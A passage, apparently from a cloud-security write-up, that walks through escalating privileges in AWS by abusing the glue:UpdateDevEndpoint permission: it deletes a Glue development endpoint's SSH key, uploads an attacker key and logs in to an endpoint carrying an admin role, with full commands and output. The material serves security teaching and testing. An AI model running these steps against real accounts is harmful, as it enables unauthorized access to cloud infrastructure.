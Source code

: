 ```json
{
    "DevEndpoints": [
    {
        "Status": "READY",
        "LastUpdateStatus": "PENDING",
        "AvailabilityZone": "us-west-2c",
        "PublicAddress": "ec2-18-237-208-23.us-west-2.compute.amazonaws.com",
        "RoleArn": "arn:aws:iam::[REDACTED]:role/adminaccess",
        "ZeppelinRemoteSparkInterpreterPort": 9007,
        "CreatedTimestamp": 1568063674.514,
        "PublicKeys": [
        "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsZC2WfDMbFonVuwBnYqRKl1MTU+hHWrOb9lnbPfNJlBBYl2L68qx2bRmo68qib4yxopajiHxhZ5prnrIoOONE0pCyDQqgaEyOSuhZLlXdLyKDptdc0ogRNTVyl6im9z1Wum7Bee2jFuWA8AOOvfpBRJzDLity5n0fVVHEIBQE39Ac2FLQccBElEG3Df2DICypX6EHl1q/dL1fKHOYdMVTpiiiM2C8/eK+pKLAwByuHmFPIzmC7KTMRuH7HWrhqYNAOXctQlsT/k7kUgReILKaUw/6J+GMwG58kOtc/oquvGNwrRv3vb7jwAfblBVFI6ZDNpEqihye++oT7EUJbRYb"
        ],
        "EndpointName": "privesc",
        "SecurityGroupIds": [],
        "LastModifiedTimestamp": 1568065000.21,
        "NumberOfNodes": 5
    }]
}
```

The attacker is initially not able to SSH into the Glue development endpoint:

```bash
➜ ssh glue@ec2-18-237-208-23.us-west-2.compute.amazonaws.com -i ~/.ssh/attackerkey
glue@ec2-18-237-208-23.us-west-2.compute.amazonaws.com: Permission denied (publickey).
```

Since the attacker has the glue:UpdateDevEndpoint permission, they can just update the SSH key associated with the instance. However, in order to do this they first need to delete the existing SSH public key from the instance. Failure to do so results in an error message when trying to upload a new key ("Cannot modify 'PublicKey' when multiple public keys are associated") even when only a single key is associated with the endpoint:

```bash
➜ aws glue update-dev-endpoint --endpoint-name privesc --delete-public-keys "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsZC2WfDMbFonVuwBnYqRKl1MTU+hHWrOb9lnbPfNJlBBYl2L68qx2bRmo68qib4yxopajiHxhZ5prnrIoOONE0pCyDQqgaEyOSuhZLlXdLyKDptdc0ogRNTVyl6im9z1Wum7Bee2jFuWA8AOOvfpBRJzDLity5n0fVVHEIBQE39Ac2FLQccBElEG3Df2DICypX6EHl1q/dL1fKHOYdMVTpiiiM2C8/eK+pKLAwByuHmFPIzmC7KTMRuH7HWrhqYNAOXctQlsT/k7kUgReILKaUw/6J+GMwG58kOtc/oquvGNwrRv3vb7jwAfblBVFI6ZDNpEqihye++oT7EUJbRYb" --region us-west-2 --profile privesc
```

After deleting the existing SSH key, the attacker can upload their own:

```
➜ ~ aws glue update-dev-endpoint --endpoint-name privesc --public-key file:///home/user/.ssh/attackerkey.pub --region us-west-2 --profile privesc
```

The attacker can now SSH into the endpoint:

```bash
➜ ssh glue@ec2-18-237-208-23.us-west-2.compute.amazonaws.com -i ~/.ssh/attackerkey

ECDSA key fingerprint is SHA256:dee/4hjhEuTZg07knG6cAgHTlrYNp0OqhsmUcYLE/G8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'ec2-18-237-208-23.us-west-2.compute.amazonaws.com,18.237.208.23' (ECDSA) to the list of known hosts.

__| __|_ )
_| ( / Amazon Linux AMI
___|\___|___|


```